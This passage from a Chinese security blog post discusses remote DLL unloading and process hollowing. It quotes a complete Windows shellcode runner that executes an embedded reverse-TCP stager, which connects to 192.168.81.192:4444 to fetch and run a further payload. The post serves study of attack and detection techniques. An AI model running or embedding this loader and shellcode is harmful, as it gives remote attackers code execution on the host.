 **第四段**

```
EnablePrivilge(SE_DEBUG_NAME);
HANDLE hProc = OpenProcess(MAXIMUM_ALLOWED, false, pid);
if(hProc)
{
  RemoteFreeLibrary(L"dbgeng.dll");
}
```

调用代码跟本文关系不大，贴在这里只是为了代码的完整性以及满足我自己的强迫症。

# 0x10 问题解决


回到文章开头的疑问，来继续探究。

以下代码源自 3gstudent 师傅的文章： [傀儡进程的实现与检测](https://3gstudent.github.io/3gstudent.github.io/%E5%82%80%E5%84%A1%E8%BF%9B%E7%A8%8B%E7%9A%84%E5%AE%9E%E7%8E%B0%E4%B8%8E%E6%A3%80%E6%B5%8B/)


>HelloWorld 工程实现执行 shellcode 功能的源代码如下：


```
#include <windows.h>
int WINAPI WinMain(HINSTANCE hInstance,HINSTANCE hPrevInstance,LPSTR lpCmdLine,int nCmdShow)
{
    unsigned char shellcode1[] =  
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x51\xc0\x68\x02"
        "\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
        "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
        "\x56\xff\xd5\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
        "\xd5\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58"
        "\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
        "\xc8\x5f\xff\xd5\x01\xc3\x29\xc6\x75\xee\xc3";

    typedef void (__stdcall *CODE) ();  
    
    PVOID p = NULL;    
    if ((p = VirtualAlloc(NULL, sizeof(shellcode1), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL)   
        MessageBoxA(NULL, "error", "VirtualAlloc", MB_OK);    
    if (!(memcpy(p, shellcode1, sizeof(shellcode1))))    
        MessageBoxA(NULL, "error", "memcpy", MB_OK);    
    CODE code =(CODE)p;       
    code(); 

    return 0;
}
```
